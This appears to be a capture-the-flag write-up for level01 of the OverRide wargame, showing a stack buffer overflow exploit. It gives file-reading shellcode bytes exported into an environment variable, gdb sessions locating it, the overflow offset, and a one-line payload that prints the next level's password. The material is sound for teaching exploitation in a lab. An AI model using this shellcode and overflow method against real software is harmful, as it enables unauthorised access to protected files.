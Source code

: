 Same thing as the bonus0 of rainfall (we got two read so we need to feed 2 arguments directly).
There is still a small difference, we can overflow the second read but not the first, since the first one is a global variable and the second has a pre-defined max length.

So first we export our shellcode. This shellcode is different : it doesn't run a shell, but it outputs the content of a file's given path (found here: http://shell-storm.org/shellcode/files/shellcode-73.php) :

```bash
bonus0@RainFall:~$ export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level02/.pass")'`
```

Then we find the address of our shellcode :

```bash
level01@OverRide:~$ gdb -q level01 
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) r
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) x/100x *environ
0xffffd792:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a2:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b2:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c2:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d2:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e2:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7f2:	0x90909090	0x90909090	0x90909090	0xdb31c031
```

It is stored since the address `0xffffd7d0` but to be sure we will put `0xffffd7e2` in the stack.

We then need to defined when the buffer start to overflow: (we know by looking inside the decompiled code that the username is `dat_wil`)
>level01@OverRide:~$ gdb -q ./level01 
>Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
>(gdb) r
>Starting program: /home/users/level01/level01 
>********* ADMIN LOGIN PROMPT *********
>Enter Username: dat_wil
>verifying username....
>Enter Password: 
>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
>nope, incorrect password...
>Program received signal SIGSEGV, Segmentation fault.
>0x55555555 in ?? ()

So it segfault from byte 81 to byte 84. That's where we need to put the address of the environment variable found previously :

>level01@OverRide:~$ { python -c 'print("dat_wil" * 20)'; python -c 'print("BBBB" * 20 + 3 * "\xe2\xd7\xff\xff")'; } | ./level01
>********* ADMIN LOGIN PROMPT *********
>Enter Username: verifying username....
>Enter Password: 
>nope, incorrect password...
>PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
